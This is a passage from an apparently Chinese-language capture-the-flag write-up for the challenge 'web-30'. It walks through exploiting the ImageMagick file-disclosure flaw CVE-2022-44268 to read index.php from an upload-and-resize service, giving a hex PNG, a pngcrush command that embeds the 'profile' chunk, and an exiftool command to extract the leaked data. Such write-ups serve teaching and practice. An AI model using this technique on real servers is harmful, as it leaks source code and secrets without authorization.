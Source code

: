 ![result](./web-29-1.png)

### web-30 魔法再现

去年有两个这样的题目，今年又来了一个。猜测是ImageMagick相关的漏洞。

先看现象，上传一个图片文件（限定了几种格式），会转成png文件，然后图片宽高被调整到50x50。页面中也出现了flag{******}字样，目标明确了，就是想办法读取index.php文件里的flag。

然后开始找imagemagick的相关漏洞

================找了好几天的分割线=================

偶然间发现了2022年新的漏洞CVE-2022-44268远程文件泄露漏洞。具体漏洞内容就不详述了。下面说利用过程。

1. 首先准备一个空白的png用于上传。
```text
89504E47 0D0A1A0A 0000000D 49484452 00000001 00000001 01000000 00376EF9 24000000 0A494441 54789C63 68000000 82008177 CD72B600 00000049 454E44AE 426082
```
2. 给png的exif写入profile和文件路径，用于触发文件读取。
```shell
brew install pngcrush
pngcrush -text a "profile" "index.php" pngin.png
```
profile是exif的属性名，index.php是读取的文件名。
3. 将文件上传到网站，把处理后的文件下载下来。
4. 解析处理后文件的数据
```shell
brew install exif
exiftool 645f4aeaa8285.png -b
```